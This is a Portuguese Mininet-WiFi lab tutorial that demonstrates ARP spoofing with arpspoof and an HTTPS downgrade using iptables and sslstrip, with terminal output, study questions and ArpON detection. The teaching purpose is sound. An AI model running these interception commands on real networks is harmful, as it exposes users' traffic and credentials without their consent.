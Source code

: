 ************
ARP Spoofing
************
 
ARP Spoofing e Downgrade de Protocolo
-------------

.. Note::

    **Nesta demo você irá aprender como realizar o ataque de ARP Spoofing e também como realizar o downgrade de protocolo:** 

    **Requisitos:** 
    
    - Mininet-WiFi - https://github.com/intrig-unicamp/mininet-wifi
    - dsniff
    - arpon
    - sslstrip
    - curl
    
    **A VM disponível na página do código-fonte do Mininet-WiFi possui todos os requisitos necessários para reprodução deste documento**

Antes de tudo você precisa identificar a topologia de rede que será gerada através do código abaixo:

.. code:: python

    #!/usr/bin/python

    '''@author: Ramon Fontes
       @email: ramon.fontes@imd.ufrn.br'''

    from mininet.log import setLogLevel, info
    from mn_wifi.node import OVSKernelAP
    from mn_wifi.link import wmediumd
    from mn_wifi.cli import CLI
    from mn_wifi.net import Mininet_wifi


    def topology():
        "Create a network."
        net = Mininet_wifi()

        info("*** Creating nodes\n")
        ap1 = net.addAccessPoint('ap1', ssid='new-ssid', mode='g',
                                 channel='1', position='10,10,0',
                                 failMode="standalone")
        sta1 = net.addStation('sta1', position='10,20,0')
        sta2 = net.addStation('sta2', position='10,30,0')

        info("*** Configuring wifi nodes\n")
        net.configureWifiNodes()

        info("*** Starting network\n")
        net.build()
        net.addNAT().configDefault()
        ap1.start([])

        sta2.cmd('echo 1 > /proc/sys/net/ipv4/ip_forward')

        info("*** Running CLI\n")
        CLI(net)

        info("*** Stopping network\n")
        net.stop()


    if __name__ == '__main__':
        setLogLevel('info')
        topology()


Neste tutorial, vamos simular os passos ilustrados na figura de forma a mostrar na prática como ocorre o ataque de ARP Spoofing. Para tanto, vamos considerar executar o script acima. 

Considerando que o nome do arquivo seja `arp.py` você deve executá-lo da seguinte forma:

.. code:: console

    sudo python arp.py
    

Em seguida, faremos uma tentativa de ping a partir de `sta1` para o endereço 8.8.8.8.

.. code:: console

    mininet-wifi> sta1 ping -c1 8.8.8.8

    PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
    64 bytes from 8.8.8.8: icmp_seq=1 ttl=118 time=68.8 ms
    --- 8.8.8.8 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 68.893/68.893/68.893/0.000 ms


Como é possível perceber o ping foi realizado com sucesso. Agora, vamos verificar a tabela ARP de `sta1`. Na tabela deverá constar o endereço IP e também o endereço MAC do gateway padrão de `sta1`.


.. code:: console

    mininet-wifi> sta1 arp -a
    _gateway (10.0.0.3) at 0a:1e:54:0e:66:96 [ether] on sta1-wlan0


Então, vamos simular o ataque de ARP Spoofing e fazer com que `sta1` entenda que o seu gateway na verdade é `sta2`. Primeiro, abra 2 (dois) terminais para `sta2`.

.. code:: console

    mininet-wifi> xterm sta2 sta2


Então, no terminal de `sta2` execute o arpspoof, conforme abaixo.

.. code:: console

    sta2# arpspoof -i sta2-wlan0 -t 10.0.0.1 10.0.0.3


O comando acima induz 10.0.0.1, que é a vítima, a entender que 10.0.0.2, ou seja, `sta2`, representa o endereço do gateway padrão. 

Então, após alguns segundos verificamos novamente a tabela ARP de `sta1`.

.. code:: console

    mininet-wifi> sta1 arp -a
    _gateway (10.0.0.3) at 02:00:00:00:01:00 [ether] on sta1-wlan0
    ? (10.0.0.2) at 02:00:00:00:01:00 [ether] on sta1-wlan0


Aqui, já podemos notar que o endereço MAC do gateway padrão já não é mais o mesmo do identificado anteriormente. 

Agora, realizamos um novo ping de `sta1` para o endereço público 8.8.8.8, ao mesmo tempo em que utilizamos o tcpdump no outro terminal de `sta2` para verificar se `sta2` está recebendo todo tráfego enviado gratuitamente pela vítima.

.. code:: console

    sta2# tcpdump -i sta2-wlan0
    20:30:34.970402 IP 10.0.0.1 > alpha-Inspiron: ICMP echo request, id 12251,seq 8, length 64
    20:30:34.971552 IP alpha-Inspiron > 10.0.0.1: ICMP echo reply, id 12251, seq 8, length 64
    20:30:35.430387 ARP, Reply _gateway is-at 02:00:00:00:01:00 (oui Unknown), length 28
    20:30:35.972565 IP 10.0.0.1 > alpha-Inspiron: ICMP echo request, id 12251,seq 9, length 64
    20:30:35.973722 IP alpha-Inspiron > 10.0.0.1: ICMP echo reply, id 12251, seq 9, length 64
    20:30:36.973743 IP 10.0.0.1 > alpha-Inspiron: ICMP echo request, id 12251, seq 10, length 64
    20:30:36.974884 IP alpha-Inspiron > 10.0.0.1: ICMP echo reply, id 12251, seq 10, length 64


.. code:: console

    mininet-wifi> sta1 ping -c10 8.8.8.8


Após alguns pacotes enviados por `sta1` é possível notar que `sta2` passou a receber os pacotes enviados por `sta1`, pois `sta1` passou a entender que `sta2` seria o verdadeiro gateway padrão. A partir deste momento, `sta2`, o atacante, pode inclusive utilizar de simples ferramentas como `sslstrip` para realizar ataques em cima do protocolo HTTPS (Hyper Text Transfer Protocol Secure) via downgrade de protocolo.


Para interceptar o tráfego não criptografado, é necessário fazer o downgrade da conexão da vítima de HTTPS para HTTP. Isso é possível através do `sslstrip`. Primeiro, é necessário redirecionar o tráfego de saída na porta 80 para 8080 e, em seguida, iniciar o `sslstrip` na porta 8080.

.. code:: console

    mininet-wifi> xterm sta2


Já no terminal aberto de `sta2` digite:

.. code:: console

    sta2# iptables -t nat -p tcp -A PREROUTING --destination-port 80 -j REDIRECT --to-port 8080


E depois:

.. code:: console

    sta2# sslstrip -l 8080

    sslstrip 0.9 by Moxie Marlinspike running...


Na máquina da vítima, use o `curl` para enviar uma solicitação GET para http://globo.com.

.. Note::

   Caso obter algum erro nesta etapa, tente realizar um ping para globo.com a partir de sta1. Se não houver êxito no ping adicione entrada de servidor DNS em /etc/resolv.conf também a partir de sta1.


.. code:: console

    mininet-wifi> sta1 curl -vvv http://globo.com
    *   Trying 186.192.90.12:80...
    * TCP_NODELAY set
    * Connected to globo.com (186.192.90.12) port 80 (#0)
    > GET / HTTP/1.1
    > Host: globo.com
    > User-Agent: curl/7.68.0
    > Accept: */*
    > 
    * Mark bundle as not supporting multiuse
    < HTTP/1.1 301 Moved Permanently
    < Date: Wed, 03 Mar 2021 00:03:21 GMT
    < Content-Type: text/html
    < Content-Length: 178
    < Connection: keep-alive
    < Cache-Control: max-age=600
    < Location: http://www.globo.com/
    < 
    <html>
    <head><title>301 Moved Permanently</title></head>
    <body bgcolor="white">
    <center><h1>301 Moved Permanently</h1></center>
    <hr><center>nginx</center>
    </body>
    </html>
    * Connection #0 to host globo.com left intact
    

Como é possível notar, a solicitação foi redirecionada para http://www.globo.com/. Outro GET nesta nova URL irá retornar o conteúdo da página não criptografado. 

O ataque agora está completo: podemos visualizar o tráfego não criptografado entre a vítima e o site vulnerável usando HTTPS.


.. Warning::

    **Perguntas a serem respondidas**
    
    1. Comente sobre o ataque de downgrade de protocolo. Diga  como ele funciona.
    2. O que seria o HTTP Strict Transport Security (HSTS) e como ele seria útil no cenário prático realizado acima?
    3. Anexe duas imagens do wireshark onde, do lado do atacante, mostre requisições de tráfego criptografado e também requisições de tráfego descriptografado.


Como evitar o ARP Spoofing
-------------

O ataque de ARP Spoofing pode ser evitado com o uso de ferramentas como ARP handler inspection (ArpON). Por exemplo, você pode executar o ArpON a partir de `sta1`, conforme abaixo:

.. code:: console

    mininet-wifi> xterm sta1
    arpon -D -i sta1-wlan0


Caso houver um ataque em execução será possível observá-lo após executar o arpon, conforme ilustrado abaixo:


.. code:: console

    arpon -D -i sta1-wlan0
    Oct 30 10:01:41 [INFO] Start DARPI on sta1-wlan0
    Oct 30 10:01:41 [INFO] CLEAN, 10.0.0.3 was at 52:1e:e8:62:58:11 on sta1-wlan0
    Oct 30 10:01:53 [INFO] DENY, 10.0.0.3 was at 2:0:0:0:1:0 on sta1-wlan0
    Oct 30 10:01:53 [INFO] ALLOW, 10.0.0.3 is at 52:1e:e8:62:58:11 on sta1-wlan0
    Oct 30 10:01:55 [INFO] DENY, 10.0.0.3 was at 2:0:0:0:1:0 on sta1-wlan0

